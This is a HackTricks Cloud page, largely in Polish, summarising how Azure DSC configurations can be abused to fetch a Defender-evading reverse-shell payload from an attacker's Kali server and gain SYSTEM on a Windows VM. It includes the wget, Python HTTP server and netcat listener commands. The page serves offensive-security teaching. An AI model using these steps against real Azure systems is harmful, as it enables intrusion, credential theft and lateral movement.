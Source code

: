 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Proces polega na skonfigurowaniu infrastruktury serwera zdalnego do hostowania zmodyfikowanego ładunku Nishang `Invoke-PowerShellTcp.ps1`, nazwanego `RevPS.ps1`, zaprojektowanego w celu ominięcia Windows Defender. Ładunek jest serwowany z maszyny Kali Linux o IP `40.84.7.74` przy użyciu prostego serwera HTTP w Pythonie. Operacja jest realizowana w kilku krokach:

#### Step 1 — Create Files

* **Files Required:** Potrzebne są dwa skrypty PowerShell:
1. `reverse_shell_config.ps1`: Plik Desired State Configuration (DSC), który pobiera i wykonuje ładunek. Można go uzyskać z [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skrypt do publikacji konfiguracji na VM, dostępny na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Zmienne i parametry w tych plikach muszą być dostosowane do specyficznego środowiska użytkownika, w tym nazwy zasobów, ścieżki plików oraz identyfikatory serwera/ładunku.

#### Step 2 — Zip Configuration File

* Plik `reverse_shell_config.ps1` jest kompresowany do pliku `.zip`, co czyni go gotowym do transferu do Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Krok 3 — Ustaw kontekst przechowywania i przesyłanie

* Zszyty plik konfiguracyjny jest przesyłany do zdefiniowanego kontenera przechowywania Azure, azure-pentest, za pomocą polecenia Set-AzStorageBlobContent z Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Krok 4 — Przygotowanie Kali Box

* Serwer Kali pobiera ładunek RevPS.ps1 z repozytorium GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skrypt jest edytowany, aby określić docelową maszynę wirtualną Windows i port dla odwrotnego powłoki.

#### Step 5 — Publish Configuration File

* Plik konfiguracyjny jest wykonywany, co skutkuje wdrożeniem skryptu odwrotnej powłoki w określonej lokalizacji na maszynie wirtualnej Windows.

#### Step 6 — Host Payload and Setup Listener

* Uruchamiany jest Python SimpleHTTPServer, aby hostować ładunek, wraz z nasłuchiwaczem Netcat do przechwytywania przychodzących połączeń.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Zaplanowane zadanie wykonuje ładunek, osiągając uprawnienia na poziomie SYSTEM.

#### Wnioski

Pomyślne wykonanie tego procesu otwiera liczne możliwości dalszych działań, takich jak zrzut poświadczeń lub rozszerzenie ataku na wiele maszyn wirtualnych. Przewodnik zachęca do dalszej nauki i kreatywności w dziedzinie Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
